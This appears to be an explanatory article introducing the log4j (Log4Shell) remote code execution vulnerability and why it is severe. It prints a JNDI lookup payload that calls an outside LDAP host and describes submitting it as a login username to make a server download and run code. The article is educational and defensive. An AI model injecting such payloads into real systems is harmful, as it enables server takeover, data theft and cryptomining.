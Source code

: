 ## What is log4j?

When writing code for a website backend, there are different programming languages to choose from, such as Python, JavaScript, PHP, or Java, and these programming languages will have some packages specialized in logging, which means someone has already written the functionality for you, and you just need to use it.

Java has a very useful logging package called log4j. This package belongs to the Apache Software Foundation, so its full name is Apache Log4j.

There are many different software and packages under Apache, such as:

* Apache HTTP Server (the most commonly seen one)
* Apache Cassandra
* Apache Tomcat
* Apache Hadoop
* Apache Struts
* ...

So Apache Server and Apache log4j are completely different things. I know you use Apache Server, but whether you use log4j is another matter.

The package that caused the problem this time is log4j, and the reason for the problem is the same as what I said at the beginning. There is a little-known feature with a security vulnerability. As long as log4j records something in a specific format when logging, it will execute the corresponding code, just like the "shutdown" board mentioned at the beginning.

To be more specific, it does not directly execute the code. The specific format looks like this:

```
${jndi:ldap://cymetrics.io/test}
```

Don't worry about the words you can't understand. You can clearly see that there is a string that looks like a URL inside. Yes, it is a URL. When log4j records the above string, it finds that the string matches a specific format, so it will download the code from the URL (`cymetrics.io/test`) and execute it. Therefore, this is a Remote Code Execution (RCE) vulnerability.

As I mentioned earlier, the backend will record many things. For example, if a backend service is written in Java and uses log4j to record the account entered when the user logs in fails, then I only need to log in with the account `${jndi:ldap://cymetrics.io/test}` to trigger the log4j vulnerability and execute the code I prepared.

As long as I can execute code, I can do many things, such as stealing data from the server or installing mining software to mine for me, and so on.

## Why is this vulnerability so serious?

First, log4j is used by a large number of people. Almost everyone who uses Java will use this package to record logs.

Second, the trigger method is easy. You only need to fill various parts of the request with these problematic strings. As long as the server records one of them, it can trigger the vulnerability, and as mentioned earlier, recording logs is a common thing.

Third, the impact is huge. Once the vulnerability is triggered, it is the most serious RCE, which can directly execute any code.
